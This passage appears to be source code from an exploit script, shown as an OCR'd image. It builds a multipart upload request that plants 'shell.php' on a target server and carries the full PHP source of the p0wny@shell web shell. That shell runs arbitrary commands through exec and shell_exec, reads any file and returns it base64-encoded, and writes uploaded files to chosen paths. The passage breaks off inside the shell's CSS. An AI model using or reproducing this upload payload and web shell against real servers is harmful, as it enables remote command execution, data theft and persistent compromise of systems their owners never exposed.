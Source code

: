     body = "-----------------------------370797319835249590062969815666\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n64000000\r\n-----------------------------370797319835249590062969815666\r\nContent-Disposition: form-data; name=\"file[]\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php\n\nfunction featureShell($cmd, $cwd) {\n    $stdout = array();\n\n    if (preg_match(\"/^\\s*cd\\s*$/\", $cmd)) {\n        // pass\n    } elseif (preg_match(\"/^\\s*cd\\s+(.+)\\s*(2>&1)?$/\", $cmd)) {\n        chdir($cwd);\n        preg_match(\"/^\\s*cd\\s+([^\\s]+)\\s*(2>&1)?$/\", $cmd, $match);\n        chdir($match[1]);\n    } elseif (preg_match(\"/^\\s*download\\s+[^\\s]+\\s*(2>&1)?$/\", $cmd)) {\n        chdir($cwd);\n        preg_match(\"/^\\s*download\\s+([^\\s]+)\\s*(2>&1)?$/\", $cmd, $match);\n        return featureDownload($match[1]);\n    } else {\n        chdir($cwd);\n        exec($cmd, $stdout);\n    }\n\n    return array(\n        \"stdout\" => $stdout,\n        \"cwd\" => getcwd()\n    );\n}\n\nfunction featurePwd() {\n    return array(\"cwd\" => getcwd());\n}\n\nfunction featureHint($fileName, $cwd, $type) {\n    chdir($cwd);\n    if ($type == 'cmd') {\n        $cmd = \"compgen -c $fileName\";\n    } else {\n        $cmd = \"compgen -f $fileName\";\n    }\n    $cmd = \"/bin/bash -c \\\"$cmd\\\"\";\n    $files = explode(\"\\n\", shell_exec($cmd));\n    return array(\n        'files' => $files,\n    );\n}\n\nfunction featureDownload($filePath) {\n    $file = @file_get_contents($filePath);\n    if ($file === FALSE) {\n        return array(\n            'stdout' => array('File not found / no read permission.'),\n            'cwd' => getcwd()\n        );\n    } else {\n        return array(\n            'name' => basename($filePath),\n            'file' => base64_encode($file)\n        );\n    }\n}\n\nfunction featureUpload($path, $file, $cwd) {\n    chdir($cwd);\n    $f = @fopen($path, 'wb');\n    if ($f === FALSE) {\n        return array(\n            'stdout' => array('Invalid path / no write permission.'),\n            'cwd' => getcwd()\n        );\n    } else {\n        fwrite($f, base64_decode($file));\n        fclose($f);\n        return array(\n            'stdout' => array('Done.'),\n            'cwd' => getcwd()\n        );\n    }\n}\n\nif (isset($_GET[\"feature\"])) {\n\n    $response = NULL;\n\n    switch ($_GET[\"feature\"]) {\n        case \"shell\":\n            $cmd = $_POST['cmd'];\n            if (!preg_match('/2>/', $cmd)) {\n                $cmd .= ' 2>&1';\n            }\n            $response = featureShell($cmd, $_POST[\"cwd\"]);\n            break;\n        case \"pwd\":\n            $response = featurePwd();\n            break;\n        case \"hint\":\n            $response = featureHint($_POST['filename'], $_POST['cwd'], $_POST['type']);\n            break;\n        case 'upload':\n            $response = featureUpload($_POST['path'], $_POST['file'], $_POST['cwd']);\n    }\n\n    header(\"Content-Type: application/json\");\n    echo json_encode($response);\n    die();\n}\n\n?><!DOCTYPE html>\n\n<html>\n\n    <head>\n        <meta charset=\"UTF-8\" />\n        <title>p0wny@shell:~#</title>\n        <meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\" />\n        <style>\n            html, body {\n                margin: 0;\n                padding: 0;\n                background: #333;\n                color: #eee;\n                font-family: monospace;\n            }\n\n            *::-webkit-scrollbar-track {\n                border-radius: 8px;\n                background-color: #353535;\n            }\n\n            *::-webkit-scrollbar {\n                width: 8px;\n                height: 8px;\n            }\n\n            *::-webkit-scrollbar-thumb {\n                border-radius: 8px;\n                -webkit-box-shadow: inset 0 0 6px rgba(0,0,0,.3);\n                background-color: #bcbcbc;\n            }\n\n            #shell {\n                background: #222;\n                max-width: 800px;\n                margin: 50px auto 0 auto;\n                box-shadow: 0 0 5px rgba(0, 0, 0, .3);\n                font-size: 10pt;\n                display: flex;\n                flex-direction: column;\n                align-items: stretch;\n            }\n\n            #shell-content {\n                height: 500px;\n                overflow: auto;\n                padding: 5px;\n                white-space: pre-wrap;\n                flex-grow: 1;\n            }\n\n            #shell-logo {\n                font-weight: bold;\n                color: #FF4180;\n                text-align: center;\n            }\n\n            @media (max-width: 991px) {\n                #shell-logo {\n                    font-size: 6px;\n                    margin: -25px 0;\n                }\n\n                html, body, #shell {\n                    height: 100%;\n                    width: 100%;\n                    max-width: none;\n                }\n\n                #shell {\n                    margin-top: 0;\n                }\n            }\n\n            @media (max-width: 767px) {\n                #shell-input {\n                    flex-direction: column;\n                }\n            }\n\n            @media (max-width: 320px) {\n                #shell-logo {\n                    font-size: 5px;\n                }\n            }\n\n            .shell-prompt {\n                font-weight: bold;\n                color: #75DF0B;\n            }\n\n            .shell-prompt > span {\n                color: #1BC9E7;\n            }\n\n            #shell-input {\n                display: flex;\n                box-shadow: 0 -1px 0 rgba(0, 0, 0, .3);\n                border-top: rgba(255, 255, 255, .05) solid 1px;\n            }\n\n            #shell-input > label {\n                flex-grow: 0;\n                display: block;\n